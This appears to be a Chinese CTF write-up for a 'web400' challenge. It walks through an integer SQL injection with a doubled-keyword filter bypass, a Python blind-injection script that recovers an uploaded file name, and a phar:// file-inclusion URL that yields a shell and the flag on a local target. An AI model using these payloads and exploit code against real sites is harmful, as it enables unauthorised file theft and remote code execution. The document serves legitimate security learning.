 ## web400 writeup

注册一个账号进入之后,发现download页面的收藏功能存在整数型sql注入
download的过程是用文件id到数据库中查找文件路径,然后读取文件返回.

所以可以用union联合注入,修改文件名,下载别的文件.
这里有过滤,双写可以绕过.

```
image=888%20ununionion%20selselectect%200x696e6465782e706870&image_download=%E6%94%B6%E8%97%8F
```
就可以下载index.php,然后利用次方法下载所有的文件,进行代码审计.
发现index.php 存在文件包含漏洞,但是限定了后缀必须是 .php文件

所以思路是利用php的phar协议绕过,但是却没有文件上传路径,所以需要利用注入获取文件名.
由于过滤了(),所以需要利用union盲注,来找文件名.
具体怎么union盲注,参考这里[http://wonderkun.cc/index.html/?p=547](http://wonderkun.cc/index.html/?p=547)

提供一个python的exp
```python
#!/usr/bin/python
# coding:utf-8

import requests

def getFilename():
    data="image=2%20aandnd%20image_name%20lilikeke%200x74657374%20ununionion%20selselectect%200x{filename}%20oorrder%20by%201&image_download=%E6%94%B6%E8%97%8F"
    url = "http://127.0.0.1:5555/downfile.php"
    headers = {
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"PHPSESSID=k6to46unk90e733r47qdqh8ll7",
        "User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36"
    }

    randStr="0123456789abcdefghijklmnopqrstuvwxyz{"
    fileName = "./Up10aDs/"
    for _ in range(33):
        print "[*]",fileName
        for i in range(len(randStr)):
            # print i
            tmpFileName = fileName+randStr[i]
            proxies = {"http":"127.0.0.1:8080"}
            res = requests.post(url,data=data.format(filename=tmpFileName.encode("hex")),headers=headers,proxies=proxies)
            # print res.text
            if "file may be deleted" not in res.text:
                fileName = fileName + randStr[i-1]
                break

if __name__ == '__main__':
    getFilename()
```

计算出filename为:[*] ./Up10aDs/y9c8v9ow3s6ans5o8oy5u3qnsdnckeva 加上后缀名为自己上传文件的后缀名,就是文件名,所以文件名是 ./Up10aDs/y9c8v9ow3s6ans5o8oy5u3qnsdnckeva.png
包含此文件就可以getshell了.
```
http://127.0.0.1:5555/index.php?file=phar://Up10aDs/y9c8v9ow3s6ans5o8oy5u3qnsdnckeva.png/1
```
在文件F1AgIsH3r3G00d.php读取到flag 
```
$flag = "flag{f1a4628ee1e9dccfdc511f0490c73397}";
```




